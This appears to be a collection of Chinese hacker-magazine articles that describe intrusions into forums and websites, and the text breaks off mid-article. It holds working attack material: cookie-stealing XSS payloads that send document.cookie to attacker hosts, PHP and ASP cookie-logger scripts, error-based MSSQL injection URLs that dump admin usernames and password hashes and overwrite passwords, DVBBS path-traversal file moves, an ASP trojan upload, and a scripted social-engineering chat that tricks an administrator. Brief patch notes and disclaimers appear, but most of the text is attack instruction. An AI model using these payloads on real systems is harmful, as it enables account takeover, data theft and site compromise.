通过这些方法，我得到了一些论坛的用户信息。当然，这些都是针对 JSP 做的一些测试，以验证 Web 应用程序中的所有输入字段。我的思路是这样的：如果能从第一个浏览器会话中取出 URL（包括 Jsessionid），然后粘贴到其他浏览器中进行浏览，就能够伪装成其他用户了！

几番轰炸，我制作出了一份精确的字符清单，以测试应用程序需要当成用户输入而接受的所有字符。如果应用程序会接受许多特殊字符，估计会有一些漏洞。这样我就可以获得更大的访问权限。有了用户信息，却没有密码，怎么办？在登录时，我发现了一个 8888 端口，这会是什么服务呢？

疲惫中，我将注意力转移到测试时发现的 8888 端口，难道是个聊天室？看来 Linux 下的平台确实有很多让人称奇的地方。打开地址后，我发现这个端口运行的是 Apache+PHP，也就是说这台主机还可以编译运行 PHP！不过从经验分析来看，管理员在 JSP 主机上同时安装 PHP 的主要目的可能是为了管理 MySQL 数据库，因此这个端口很可能有 phpMyAdmin。再联想到前面发现的漏洞，这个端口上会不会有个数据库管理目录呢？测试后果然不出所料，在输入这个目录之后进入了一个 phpMyAdmin 管理界面，可以对 MySQL 数据库进行任意操作。

打开其中的一个数据库，在“SQL”中输入 `SELECT * FROM adminuser`，Adminuser 表中的数据全部显示出来了，和我前面用 JSP 探测的用户类型大致一致。至于他们的表和数据的删改权限，现在则完全在我的掌握之中了（如图6所示）。


本来还想测试一下 Tomcat 下的 Invoker Servlet 的，不过朋友催得实在太急，也就暂时终止了。不过，从测试过程来看，这些问题都是 Tomcat 下的一些基本配置问题，很多问题来自安装目录下的 Conf 子目录下的 WEB.xml 文件。现在要做的，就是给他们提交一份详细的防范措施了。

## 妙用ASP.NET最终大法

文／图 boyfriend

最近盯了一家本地的教育网站，想到里面去翻一翻有什么有价值的文档，比如提前放假通知什么的。先用端口扫描工具扫了一下，发现居然只开了 80。查看了一下 IIS 的版本。


通过 TELNET 80 获得的信息，可以判断是 Windows 2000 主机，支持 ASP.NET（也就是 aspx）。让我进入站点寻找有没有可以切入的点，后来搜索半天发现整个站点只有一个文章系统和一个小型论坛，那就先从文章系统入手吧。

```
http://www.xxeou.com/pei-list.asp?ArticleID=146
```

我在 Google 搜索了一下 pei-list.asp，没有找到相关文章系统可以下载，这可能是管理员自己写的一个 ASP 文章系统吧。先来试试安全性如何，提交返回正常页面；再来，还是返回正常页面。看来做了过滤。再来猜文章管理系统的登录位置，这次轻松点，一猜就猜到了：

```
http://www.xxeou.com/pei-list.asp?ArticleID=146
http://www.xxeou.com/pei-list.asp?ArticleID=146
http://www.xxeou.com/admin/login.asp
```

试了一下弱口令，当然是没有成功，放弃这个脚本系统，再试试小型论坛有没有办法——可惜他的论坛是 HTML 的，不知道是转换了类型还是本身就是这样，反正看来是块硬骨头，SQL 注入先不考虑了。看看论坛功能上有没有缺陷。注册用户允许上传图片，前段时间不是出了动网 UPFILE.ASP 漏洞吗？漏洞原理是在上传的过程中，相关文件在处理上传文件时认为碰到 ASCII 码为 00 的字符就为结束符，从而可以用修改发送数据包的方法来上传任何后缀名的文件。我想动网存在的这种漏洞是不是也对这个论坛系统管用，不管那么多了，先来试试。我先上传了一个图片，用抓包工具来分析数据包。

```
POST /upload.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/x-gsarcade-launcher, */*
```

## EXPLOIT ATTACK 漏洞攻击


我们可以看到这个数据包的格式跟动网上传头像的格式几乎一样！为什么会这样呢？先试试存在的类似漏洞再说！直接用某编饭写的动网 UPFILE.ASP 漏洞利用工具，从抓来的数据包内容得知 upfile.asp 是上传执行文件，跟动网是一样的！赶快测试一下，可惜工具返回的信息还是上传 GIF 图片成功，而且访问这个图片还不存在？！这是为什么呢？管理员很牛？不管这么多了，我还有办法，暴库！只要是 Access 数据库，都有可能暴库！

我猜 http://www.xxedu.com/inc/ 这个目录是存在的，但是猜不到数据库连接文件，又郁闷了，难道我要放弃它？一边泡论坛，一边思索ing……这时在 bugkidz 的论坛看到 Darkness 写了一个利用 Microsoft ASP.NET 畸形 HTTP 请求信息泄露漏洞的工具，当时没怎么明白，后来看到 Darkness 的描述才突然明朗了很多。

利用这个漏洞可以暴出 ASP 相关配置文件的路径，只针对支持 ASP.NET 的服务器。中文关于这个漏洞的描述是这样的：

> ASP.NET 是一套由 Microsoft 开发的帮助开发者构建基于 Web 的应用系统，Microsoft ASP 引擎不正确处理部分接收到的特殊 Cookie 值，远程攻击者可以利用这个漏洞获得部分 Web 应用程序的敏感信息。攻击者通过 HTTP GET 请求发送 COOKIE 信息，如果 Cookie 字段中包含“=”号，ASP 尝试访问此值时，ASP 引擎会返回包含敏感信息的不能处理的错误。

我想我的目标也是支持 ASP.NET 的啊！这样利用漏洞就可以暴出数据库连接文件的位置了。如果服务器没有屏蔽返回信息的话，直接访问这个文件很有可能暴库哦！马上下载这个程序测试。

这个程序使用起来很简单，其实自己也可以用 NC 提交，提交信息如图1所示。


图1


通过工具的返回信息来看，/inc/conn1.asp 就是数据库连接文件了！yeah！马上直接访问这个路径，IE 的返回信息是这样的：


这么长的数据库路径，幸好没有暴破，现在我们可以直接下载了！下载后打开发现密码没有经过加密，取得密码后直接进入后台，找到文章系统图片上传的地方，居然可以直接上传 ASP 文件，管理员自信了点吧？马上上传一个 ASP 木马进去，服务器上连文件夹权限都没设置，有这些就够了，呵呵……

**脚本小子：** 一个程序写得好，关心和支持的朋友当然多，但是没有人可以写出完美的程序。任何程序都需要大家指出其不足之处，才可以更好地发展起来。所以，我们今天就一起来关心一下“盗帅奇”（金帅）下载系统，看看其中所存在的一些问题。

难度等级：中

前置知识：PHP语言编写脚本，CSS基础

## 盗帅下载系统2.0正式版
### 存在多个跨站漏洞

文／图 sniper

盗帅下载系统是一个使用比较广泛的ASP程序，开发者经过修改后发布了盗帅2.0正式版，解决了以前存在的大部分SQL injection漏洞。上次我在查找盗帅2.0的注入漏洞时就发现盗帅下载系统的COOKIE是明文保存的，就想试试看有没有跨站攻击漏洞。正好这几天闲暇下来，把程序翻出来看了看。可惜，程序仍然没有对跨站攻击进行防范！

### 漏洞描述

先看一下link.asp的代码，这个文件中仅仅对输入做了不能为空的限制，而对于特殊字符却没有任何防范，而且作者也允许JS和Flash代码，应该是作者的大意造成的这个漏洞。

我们可以通过插入 `<script>alert('test')</script>` 来证明这个漏洞是否存在。在首页进入申请链接，在网站介绍那里加入上面的代码，再看看是不是出来了一个警告窗口（图1）。


但我们的目的是得到我们想要的COOKIE信息。先找一个支持PHP的空间把我们用来截取COOKIE信息的文件传上去。这里设我们的空间服务器IP为192.168.1.1，PHP文件代码如下：

```php
<?php
$info = getenv('QUERY_STRING');
if ($info) {
  $fp = fopen('test.txt','a');
  fwrite($fp,$info."\n");
  fclose($fp);
}
?>
```

```html
<script language="vbscript">
Document.location="http://www.ad.com/"
</script>
```

以上代码保存为COOKIE.php，其中test.txt是我们保存COOKIE信息的文件。`http://www.ad.com/` 是起转向功能的，你自己可以构造成要转哪转哪的效果（推荐转到一个广告或目标首页什么的，这样不容易被怀疑）。然后，我们只要在网站介绍那里添加：

```html
<script>window.open('http://192.168.1.1/COOKIE.PHP?'+document.cookie);</script>
```

这样当用户浏览友情链接的时候，就会弹出窗口并且把他COOKIE中的用户名和密码截取，最后保存到test.txt中。

不过，事情并没有我们希望的那样顺利，递交信息的时候出了点问题，显示语法错误（操作符丢失）……后来再仔细看了看代码，看到这么一段：

```vb
conn.execute("insert into link(strLinName,strLinUrl,booLinText,booLinJS,numLinDown,strLinTitle,strLinPic,booLinShow,dateTimer) values('" & strLinName & "','" & strLinUrl & "','" & Request.Form("booLinText") & "','" & Request.Form("booLinJS") & "',0,'" & strLinTitle & "','" & strLinPic & "',False,'" & now() & "')")
```

由于使用了 `insert into`，所以我们递交语句的时候要把单引号换成2个单引号，把语句中的单引号替换、递交，成功。这是我截取到的一部分代码：

```text
The+Cool+Site=lao=15;%20nicedown=pws=1111&admin=1111;%20ASPSESSIONIDAQSQTAQA=...
The+Cool+Site=lao=15;%20nicedown=pws=1111&admin=1111;%20ASPSESSIONIDAQSQTAQA=...
The+Cool+Site=lao=15;%20nicedown=pws=...
admin&admin=admin;%20ASPSESSIONIDAQSQTAQA=MPNNDBJBNDLDKJIGKMKMECC
The+Cool+Site=lao=15$%20nicedown-pws=admin&admin=admin;%20ASPSESSIONIDAQSQTAQA=MPNNDBJBNDLDKJIGKMKMECC
```

看 `pws=1111&admin=1111` 中，pws后面的是密码（明文的），admin后面的是用户名。

再来看看在哪些地方可以通过Flash跨站来达到我们的目的。友情链接页面同样允许使用Flash；程序中软件信息页面中程序简介是可以贴Flash和其他多媒体标签的。我们来个“发散思维”，一下就可以把动网的一些漏洞“移植”到这里来！——如多媒体标签未过滤漏洞，有兴趣的朋友可以自己看看。在这两个地方，我们都可以通过贴Flash来得到我们想要的COOKIE信息……

使用的代码大家可以看Lilo/sandflee写的《Flash跨站攻击研究》一文。

### 解决方法

特意等了一段时间，帝国入侵者也终于把补丁写出来了，下载地址为：  
盗帅下载系统 V2.1 正式版 http://www.daoshuai.com/download/show.asp?id=8&down=1 。

> 【编后语】  
> 小编告知大家尽快下载新的盗帅系统，免得自己的会员下载系统也被有心人活动。程序都没有完美的，朋友如果你发现了什么新漏洞请第一时间告诉黑防哟。

**脚本小子：** 继成功测试BBSXP和动网官方论坛漏洞后，更多脚本方面的漏洞又被提及。文章讨论了公开漏洞与安全防护之间的关系，强调攻防并重才能真正提高整体网络安全水平。


## 你想吃什么玩？

文/史要饭的、黑夜

哎，真是无聊，我这个要饭的，日子越来越不好过了。有人居然说我弄旨要饭，我真是没语言了，抽空玩点COOL的，让大家来分享分享，高兴高兴！

大家都知道SQL跨表查询的东西吧？假如管理员把字段名改得非常复杂的话，那么我们去猜解字段名将会是一件非常痛苦的事。我们不喜欢痛苦，还是去找新的漏洞，绕过这个痛苦的过程。开工吧，让我们来分析一下MSSQL的三个关键系统表。

## MSSQL三个关键系统表

- sysdatabases

MSSQL中对sysdatabases系统表的说明是：Microsoft SQL Server上的每个数据库在表中占一行。最初安装SQL Server时，sysdatabases包含master、model、msdb、mssqlweb和tempdb数据库的项，该表只存储在master数据库中。

这个表保存在master数据库中，表中保存的是什么信息呢？它保存了所有的库名、库的ID和一些相关信息。这里我把对于我们有用的字段名称和相关说明给大家列出来，看好啦！

| 字段 | 说明 |
|---|---|
| name | 表示库的名字 |
| dbid | 表示库的ID |

dbid从1到5是系统所有，分别是master、model、msdb、mssqlweb、tempdb这5个库。我们利用SQL语句 `select * from master.dbo.sysdatabases` 就可以查询出所有的库名。

- sysobjects

MSSQL中对sysobjects系统表的说明是：在数据库内创建的每个对象（约束、默认值、日志、规则、存储过程等）在表中占一行。只有在tempdb内，每个临时对象才在该表中占一行。这个是列出数据库对象的系统表，这里为大家列出一些对我们有用的字段名称和相关说明：

| 字段 | 说明 |
|---|---|
| name | 对象名 |
| id | 对象ID |
| xtype | 对象类型 |
| uid | 所有者对象的用户ID |

xtype常见值：

- C = CHECK约束
- L = 日志
- S = 系统表
- TF = 表函数
- TR = 触发器
- U = 用户表
- X = 扩展存储过程

当然，我们这里只用得到 `xtype='U'` 的值。等于U的时候，对象名就是表名，对象ID就是表的ID值。我们利用SQL语句 `select * from ChouYFD.dbo.sysobjects where xtype='U'`，就可以列出库名 ChouYFD 中所有的表名。

- syscolumns

SQL中syscolumns系统表的说明是：每个表和视图中的每列在表中占一行，存储过程中的每个参数在表中也占一行。该表位于每个数据库中。这个就是列出一个表中所有的字段列表的系统表，这里我就为大家列出一些对我们有用的字段名称和相关说明：

| 字段 | 说明 |
|---|---|
| name | 字段名称 |
| id | 表ID号 |
| colid | 字段ID号 |

其中的ID是我们用sysobjects得到的表的ID号。我们利用SQL语句 `select * from ChouYFD.dbo.syscolumns where id=123456789` 得到ChouYFD这个库中表的ID是123456789中的所有字段列表。好了，简单地介绍了一下这个用法。大家如果有不了解的，可以查看SQL相关说明。

## 灵活利用系统表

玩过CS游戏的举手，呵呵，都玩过啊。好！我们今天也要来爆一下“头”。不过我们现在爆的是库名、表名和字段名，而用不着去猜！怎么才能一下爆出相关的库名、表名和字段名呢？当两个类型值不一样的时候，将它们做比较，SQL系统会提示出错，并且会显示出类型的值，如 `'aaa'>100` 这样比较，也就是字符串和数字的比较。系统当然会提示出错啦！大家都知道只有相同类型的时候才可以进行运算，所以这里我们就来一个反方向的不相同类型比较，爆出它的值！

### 任务一：得到所有库名

用下面的URL方式可以实现上面的功能：

```
http://www.AAA.com/jump.asp?id=3400 and 0<>(select count(*) from master.dbo.sysdatabases where name>1 and dbid=6)
```

因为dbid的值从1到5是系统占用的，所以用户自己建的一定是从6开始，并且我们提交了 `name>1`，name字段是一个字符型的字段，它和数字比较会出错。提交之后我们看一下IE返回了什么？

> Microsoft OLE DB Provider for SQL Server 错误 '80040e07'  
> 将nvarchar值'Northwind'转换为数据类型为int的列时发生语法错误。  
> /jump.asp，行33

GOOD! 这样我们就把name字段的值暴露出来了：Northwind。我们也就得到了一个库名。简单吧？呵呵，再改变dbid的值，可以得出所有的库名。当dbid等于10、11的时候，爆出了两个论坛的库名，分别为BBS2002和BBS。

呵呵，论坛的库名出来啦！那我们就不客气了，就找BBS这个库吧！

## 任务二：得到BBS库中所有表名

先来第一句查询的SQL语句。

```
http://www.AAA.com/jump.asp?id=3400 and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype='U')
```

返回的是name的值，然后和数字0比较，这样也是错的！同样会暴露出name的值。好了，我们提交吧，只听到“砰”的一声！一个表名（name的值）出来了，名叫：Address！这里多说两句，如果你提交的时候，返回说没有权限，就说明这两个库的SQL号的权限不一样，那就放弃吧！

好，再来接着爆其他的表：

```
http://www.AAA.com/jump.asp?id=3400 and 0<>(select top 1 name from bbs.dbo.sysobjects where xtype='U' and name not in('Address'))
```

又出来一个表名，名叫：admin！依次提交…… `and name not in('address','admin',...)` 就可以查出所有的表名。

现在我们得到了Admin这个表，大家都清楚了这个表是做什么的吧？我们的目的就是要得到这个表中账号字段和密码字段的值！下面就是要得到这个表中的所有字段名了！怎么得到字段名呢？系统表syscolumns中有用字段为name、id、colid，其中ID是保存着表的ID，也就是说我们要得到表的ID号，然后用 `SELECT * from bbs.dbo.syscolumns where id=bbs表的ID`，这样才能列出BBS这个表中所有的字段。看我表演吧！

```
http://www.AAA.com/jump.asp?id=3400 and 0<>(select count(*) from bbs.dbo.sysobjects where xtype='U' and name='admin' and uid>(str(id)))
```

我们是想把ID值转成字符型后再和一个整型值比较！经典吧，呵呵，这也想得出来！（脚本小子：臭要饭的老臭美！）又听到“砰”的一声，ID号出来了，值为：773577794，OK，进入下一关！

## 任务三：得到ADMIN表中的字段列表

我们构造这样的URL：

```
http://www.AAA.com/jump.asp?id=3400 and 0<>(select top 1 name from BBS.dbo.syscolumns where id=773577794)
```

还是把name和数字比较，IE会乖乖地返回adduser！呵呵，再来：

```
http://www.AAA.com/jump.asp?id=3400 and 0<>(select top 1 name from BBS.dbo.syscolumns where id=773577794 and name not in('adduser'))
```

又返回一个字段名：flag，再来：

```
http://www.AAA.com/jump.asp?id=3400 and 0<>(select top 1 name from BBS.dbo.syscolumns where id=773577794 and name not in('adduser','flag'))
```

……

当提交到 `http://www.AAA.com/jump.asp?id=3400` 的注入语句后，返回“BOF 或 EOF 中有一个是‘真’…”，说明当前记录条件被满足，我们已基本猜出字段。

整理结果可得 BBS 库中 Admin 表字段包括：`adduser, flag, id, lastlogin, lastloginip, password, username`，看起来像动网论坛表结构。

### 任务四：查询字段值

继续看关键字段 `username` 和 `password` 的值。

```
http://www.AAA.com/jump.asp?id=3400 and 0<>(select id from BBS.dbo.admin where username)
```

账号出来了：`youbiao`，再提交一个条件继续查密码。

```
http://www.AAA.com/jump.asp?id=3400 and 0<(select id from BBS.dbo.admin where password>'' and username='youbiao')
```

真听话，密码又出来了：`d6b2f32a47b8bcb5`（MD5）。不用破，直接改密码即可。

```
http://www.AAA.com/jump.asp?id=3400;update BBS.dbo.admin set password='AAABBBCCCDDDEEEE' where username='youbiao'--
```

进去试试，成功后再改回原密码。

```
http://www.AAA.com/jump.asp?id=3400;update BBS.dbo.admin set password='d6b2f32a47b8bcb5' where username='youbiao'--
```

通过 `UPDATE` 可直接改密码；当前拿到的是后台账号，还需到前台添加管理员用户。熟悉脚本的朋友应不难完成。

### 结束，闪人

本次测试由作者与黑夜完成，提醒读者不要用于非法破坏。若网站使用SQL数据库，应认真检查脚本提交参数。


## 动网漏洞之“乾坤大挪移”

文/图：臭要饭的、黑夜、卖身葬情人！

漏洞来源：DVBBS V6.0、V6.1 For 任何版本。  
发现漏洞日期：2003-1-10  
测试目标：内部局域网 Win2k + DVBBS For ACCESS V6.1

### 开场白

这不是小说，而是一篇技术文章：讲述如何发现并利用脚本漏洞，以及如何打补丁。该漏洞危害大、日志痕迹少，可能导致主页被篡改、论坛关闭甚至数据库被下载。

“乾坤大挪移”秘术藏在动网两个脚本文件中，文中先介绍其中一个。

### 寻找乾坤大挪移大法

打开论坛源脚本文件 `MYMODIFY.ASP`，查找如下代码：

```vb
sub update()
  ' 对上传头像进行过滤与改名
  if Cint(Dvbbs.Forum_Setting(7))=1 Then
    On Error Resume Next
    dim objFSO, uploadname, newfilename
    dim upface, memberid
    set rs=conn.execute("select userid,face from [user] where userid='" & Dvbbs.userid & "'")
    memberid=rs(0)
    upface=trim(rs(1))
    newfilename=""
    uploadname=split(upface,"/")
    ...
  end if
end sub
```

```vb
if objFSO.fileExists(Server.MapPath(upface)) then
    objFSO.movefile "" & Server.MapPath(upface) & "", "" & Server.MapPath(newfilename) & ""
end if

If Err.Number = 0 Then
    Conn.Execute("update [user] set face='" & replace(newfilename,"'","''") & "' where userid='" & DvBbs.userid & "'")
end if
set objFSO = nothing
rs.close
set rs = nothing
```

首先，`upfilename` 被 `/` 分成两部分：

- 第一部分：`upfilename(0)=uploadFace`
- 第二部分：`upfilename(1)=..\index.asp`

看着代码我们往下走。

```vb
if ubound(upfilename)=1 and upfilename(0)="uploadFace" then
    if instr(upfilename(1),"/")=0 then
        newfilename="uploadFace/" & memberid & "_" & upfilename(1)
    end if
end if
```

假如用户 ID 为 9，那么 `newfilename='uploadFace/9_..\index.asp'`，实际会等同于 `uploadFace/index.asp`。检测到该文件后系统会开始移动文件。

```vb
objFSO.movefile "" & Server.MapPath(upface) & "", "" & Server.MapPath(newfilename) & ""
```

看明白了吧！好，修炼成功，我们来利用移动大法。

我们一步一步来分析这段代码：

```vb
memberid=rs(0)
upface=trim(rs(1))
upfilename=split(upface,"/")

if ubound(upfilename)=1 and upfilename(0)="uploadFace" then
    if instr(upfilename(1),"/")=0 then
        newfilename="uploadFace/" & memberid & "_" & upfilename(1)
        if objFSO.fileExists(Server.MapPath(upface)) then
            ...
        end if
    end if
end if
```

好，最关键的地方来了，这就是移动的核心代码：

```vb
objFSO.movefile "" & Server.MapPath(upface) & "", "" & Server.MapPath(newfilename) & ""
Conn.Execute("update [user] set face='" & replace(newfilename,"'","''") & "' where userid='" & DvBbs.userid & "'")
```

OK！代码分析完毕，大家应该看明白了，下面我们一起来实践它！

### 修炼乾坤大挪移大法

大家都知道在 DOS 中 `..` 和 `/` 的用法。在 IE 中如 `http://ip/abc/../../a.asp` 会被解释到上级路径。动网程序仅判断了 `/` 作为分隔符，导致可利用路径穿越把文件挪走。

先在论坛注册账号，在“用户控制面板 -> 基本资料修改”中把“自定义头像地址”改为 `uploadFace/../../index.asp`。第一次保存仅入库，第二次进入再保存会触发读取并移动，导致 `index.asp` 被移动到 `uploadFace` 目录。

另外如果把 `conn.asp` 移到 `uploadFace` 目录，可能泄露数据库绝对路径。不过该文件本身还有其他限制，实际利用并不稳定。

### 乾坤大挪移大法：生可望，死可灭

我们为这个漏洞打个补丁吧。由于影响范围大且可通过 POST 提交触发，管理员不易从日志发现，同时可移动论坛中的关键文件，需要重点修复。

**脚本小子：**《黑防》杂志以前刊登过跨站脚本漏洞的相关文章，在当时有很多站长注意了这个问题，做了比较好的防护，但是一段时间后，这样的攻击方法又死灰复燃，很多跨站脚本攻击又在网络上蔓延，所以应很多朋友的要求，我们特意重新安排了和“跨站脚本”相关的对应文章，在攻击和防护中一起来探讨网络安全技术！

**适合对象：**对脚本攻击感兴趣的朋友  
**前置知识：**Cookie、JavaScript、HTML

## 再谈“跨站脚本攻击”——入侵某知名安全站点实例

文／图 无敌最寂寞[HBU小组]

最近跨站脚本攻击又开始蔓延，看了几个高手的脚本攻击文章，心里热乎乎的，也盘算着自己尝试一下这样的攻击。无意中来到一家著名组织的论坛（以下简称论坛）的登录界面，一眼看去就是动网BBS那熟悉的界面，版本是 V6.0.0，从管理员处得知所有以前公布的漏洞全补上了。当然，打好了那些补丁不代表整站的安全性就固若金汤了：在征得管理员的同意后，笔者开始测试跨站攻击！

估计用普通的跨站攻击方法是行不通了，管理员肯定对字符串做了严格的过滤，接下来测试的结果也证明了这一猜测。最郁闷的是把字符串换成 ASCII 码也未能蒙混过去。正在犯难之际，一眼看到了上传选项，先看看支持什么文件格式的上传——论坛支持图片上传！我们来伪造一个图片文件，将含有脚本代码的文本文件的后缀名改为 `.gif`，这样当对方试图打开“图片”的时候，文件里的代码会被执行，我们“欺骗”的目的也就达到了！


图1

代码被成功执行，笔者自己的 cookie 一览无余。可能有的朋友会问：不是伪造的图片吗？就算是文本文件，为什么里面的代码会执行呢？事实上，我们伪造的那个 1.gif 文件是一个纯粹的文本文档，当浏览器试图打开它时，实际上打开的是个文本文档，而文本文档里所包含的 HTML、VBScript、JavaScript 等脚本代码会被浏览器自动解释执行。这就是一个系统的固有缺陷，我们可以利用它来构造一次跨站脚本攻击，截取管理员的 Cookie，从而进一步控制论坛。

```html
<script language="javascript">window.alert(document.cookie)</script>
```

制作的方式是打开记事本程序，输入如下代码，然后另存为 1.gif 文件（文件名可任意，只要后缀名是图片文件格式即可上传），然后在论坛里发个帖子，然后把刚才制作的 1.gif 文件上传，帖子发表后，可以自己来浏览一下，点击一下这个打红叉的“图片”，可以看到如图1所示的结果。

首先，笔者在自己的 ASP 空间上安置了海阳顶端网的 ASP 木马，这样稍后测试的时候查看结果会比较方便，毕竟反复登录 FTP 是很麻烦的。然后找一个可以获取 Cookie 的 ASP 脚本，笔者找到的是 lcx 写的那段经典代码。

```asp
<%
testfile=server.mappath("super.txt")
%>
```

因为没有过滤好“\”符号，我们把这句代码：

```asp
if instr(upfilename(i),"'")<>0 then
    ......
if instr(tofilename(i),"'")<>0 and instr(upfilename(i),"\")<>0 then
```

也就是判断 upfilename 中不要包括“\”符号，这样，补丁就打好了！同时，在这里还可以输入 HTML 语句，大家可以自己测试一下。如在自定义路径输入框中输入 `uploadFace/mm.jpg><b>要饭</b>`，呵呵，没有过滤好，点击更新，再次返回到基本资料，你会看到“要饭”两个字在上面变成粗体了。

今天主要是为大家介绍这个移动大法，在闪人之前，为大家送个好东西，请注意看光盘中的动画文件，有本教程的演示实例哦！

## 结束闪人

本漏洞对动网论坛的危害是相当大的，请大家不要利用本漏洞破坏网上论坛。我这只是做了一个测试，并没有去破坏任何数据，也希望动网官方的人员及时打上补丁！

```asp
msg=request("msg")
set fs=server.createobject("scripting.filesystemobject")
set thisfile=fs.opentextfile(testfile,8,true,0)
thisfile.writeline(" " & msg & " ")
thisfile.close
set fs=nothing
response.redirect("http://www.xxx.net")
%>
```

上面的代码中我只不过是把保存的文件名改了一下，然后在最后一句加了一个 URL 重定向指令使得页面重定向到固定的论坛上来，其余的都是完全照搬 lcx 的代码。将这段代码保存为 `info.asp`，然后上传到自己的空间上去。

接下来该重新做一个伪装图片了，只需要打开记事本，输入如下代码：

```html
<script language=javascript>window.open('http://cna$u.net/info.asp?msg='+document.cookie)</script>
```

这段代码很简单，关键就是这一句：`http://.../info.asp?msg='+document.cookie`，其含义就是把浏览者的 Cookie 信息作为 msg 变量的内容传递给 `info.asp` 来处理，以达到窃取的目的。

一切准备就绪之后，把这次修改好的 `1.gif` 文件上传到论坛（图2）。


图2

单击图片，使图片里的代码执行一下，成功！现在使用海阳顶端木马上去空间看看是不是多了个 `super.txt` 的文件？这个是我的 Cookie，但打开这个文件一看，结果却让笔者大跌眼镜（图3）。


图3

这到底是怎么回事？郁闷！居然不能正确地截取到 Cookie。笔者仔细查看 `info.asp` 原代码 N 遍，又查看了 `1.gif` 文件的内容 N 遍，还是没能找出原因来……

只能获取到第一个“&”之前变量内容的，于是马上查看一下提交格式，如下：

```text
aspsky=userhidden=&password=...&userid=22&userclass=...
```

这样就明白了，当客户端提交了如上信息后，`request` 只得到了上面信息中第一个 `&` 之前的内容，也就是 `aspsky=userhidden=`，而后面的重要内容全部被脚本忽略掉了……

```asp
<%
dim fs,log,logname,sEvent
logname="COOKIE_" & now & ".txt"
logname=replace(logname,"/","-")
logname=replace(logname,":","-")
logname=replace(logname," ","_")
logname=server.mappath(logname)
sEvent=Request.ServerVariables("QUERY_STRING")
Set fs = CreateObject("Scripting.FileSystemObject")
set log=fs.CreateTextFile(logname)
log.WriteLine sEvent
log.close
Set fs = Nothing
response.redirect("http://www.hackerbase.net")
%>
```

该代码关键部分就是这一句：`sEvent=Request.ServerVariables("QUERY_STRING")`，使用 request 对象的 servervariables 方法来获取 HTTP “？”之后的提交信息（连同 msg= 也被获取），该 ASP 脚本将获取的 Cookie 信息转储为以“COOKIE+当前日期时间”为文件名的文本文件。

代码的问题终于搞定了，接下来就可以继续测试了，重新将改好后的 `info.asp` 上传到空间里（图4）。


图4

接下来的事情就与技术无关了，需要骗取管理员的信任。于是使出社会工程学，在 QQ 上诱骗管理员，他的权限可是管理员级别的：

无敌最寂寞：这个MM图片真好看！

管理员：真的吗？我要！

无敌最寂寞：我发去论坛吧，我这网关设置了屏蔽某些协议，QQ传输不了文件。

管理员：好，我等着！

无敌最寂寞：已经传好了，去看看吧！

管理员：OK, let me see!

无敌最寂寞：好看吗？

管理员：怎么是红叉啊？

无敌最寂寞：是网络超时吧？你在新窗口打开看看先。

管理员：好，我点了，但怎么还是不行啊！

无敌最寂寞：怎么会？我重新上传一下吧！

管理员：好，麻烦你啦！

给管理员上传了一个真的MM图片，稳住他之后，笔者到空间里看见了他的 Cookie（图5）。

userclass、username 等字段，修改完后点击保存，这样就大功告成了！

再次关掉浏览器，重新开启浏览器并进入论坛（这里不需要登录就直接进去了），多刷新几遍，发个帖子试试，果然身份变成了管理员，测试成功了（图7）。


图7


图5

得到 Cookie 之后，可以暴力破解密码，但是那样时间代价太大，也不知道要等到何年何月，所以还是进行 Cookie 欺骗比较实际。首先将自己的账户退出论坛，关掉浏览器，打开“我的电脑”找到存放 Cookie 的目录将除了 index.dat 之外的所有文件删除（这里是为了防止以前的 Cookie 对实验产生干扰），再重新打开浏览器，进入论坛，在登录的 Cookie 选项中选择 Cookie 保存一天，然后用自己的“无敌最寂寞”账户登录。这时就可以调出 Cookie 查看修改利器 iecv，马上就能看到保留的 Cookie 了（图6）。


图6

编辑自己的 Cookie，将自己的 Cookie 和管理员的 Cookie 中对应的字段进行替换（这里所说的字段就是 Cookie 中以“&”分割的各个段落），即把原来 cookie 中的“password=”后面的内容替换成管理员的 cookie 中对应“password=”之后的内容。同理，依次替换 userid、

当然，我们从这里还是无法进入后台管理中心的，管理员也没傻到把前台密码与后台密码设置为一样的地步，所以这个权限充其量是冒充管理员发帖子、删帖子。当然，动网论坛6也支持不进入管理中心就直接在前台编辑一些论坛设置，这也算是个潜在的突破口。你不妨动脑子思考如何通过修改论坛设置达到自己的目的。

最后还要说明一下，由于那个伪造的图片并不完美，只显示红“X”；还有就是当浏览者点击了图片后，会出现两个 IE 浏览窗口（一个是空白窗口，地址栏中是 1.gif 路径，另一个窗口指向你在 1.gif 中指定的地址）。当然，这里你也可以使用类似 `location.href` 或者 `response.redirect` 来重定向 URL 以加强隐蔽性。

如何避免呢？第一种情况可以伪造一个真正的 GIF 文件，在 GIF 文件头部信息里添加代码（或利用跳转等方法），看上去是正常 GIF 动画，实际上点击浏览时恶意代码悄悄运行。第二种情况也许可以通过脚本编程来隐藏或关闭多余窗口。

> 看此文，就和作者无敌一起在网上随便找了同样使用 DVBBS 6.0.0 的论坛，按照作者的描述做了实验。通过一定的欺骗手段，我们都成功获得了该论坛的最高权限。我们在 Google 输入“Powered by DVBBS version 6.0.0”为关键词，在搜索结果里绝大部分都存在这个安全缺陷。

wtf：这个文章小编今天来“客串”一下本版编辑，因为好友“臭要饭的！”给我此文的时候一再叮嘱内容的重要性和轰动性，所以这次委屈脚本小子了，呵呵。闲话少说，这绝对是一篇真实的安全测试文章，也是极具观赏性的。文中在某些问题上可能走了弯路，但是那是为了给大家讲解一个思路，所以关键的解决问题的思路才是最值得大家学习的。本文作者对脚本注入漏洞的深入了解，也有对入侵的新思维分析。如果你对脚本安全兴趣浓厚但难有机会真枪实战，能错过这篇文章吗？

如果说以往的脚本攻击都只停留在 Web 层次的话，这次的文章是深入到了系统层了；因为 SQL 最迷人的地方在于它强大的功能，而其中很多不为人知的地方又是最迷人的！本文很多技术绝对是第一次出现！来吧！神秘的面纱将慢慢揭开！

- 难易程度：中级
- 前置知识：SQL 注入基本知识

## 纯脚本的脚本攻击

### ——利用纯脚本技术获得系统权限

文／图 臭要饭的！

目前网上很流行 SQL INJECTION 漏洞，也就是我们通常所说的 SQL 注入漏洞。我们利用这类漏洞可以跨表、跨库查询数据库信息，以及通过论坛来上传文件从而得到主机 WebShell（这些都是一些很通常的手法，《黑防》原来也介绍得比较详细）。前段时间我对一大型音乐收费网站进行安全测试，结果我利用纯脚本技术，拿到了系统管理员权限。所以，今天我就为大家介绍一下全部经过和我的具体思路分析。

我很快找到了一个没有经过任何过滤的参数。  
提交：`http://www.something.com/script.asp?id=2'`  
IE 返回：


提交：  
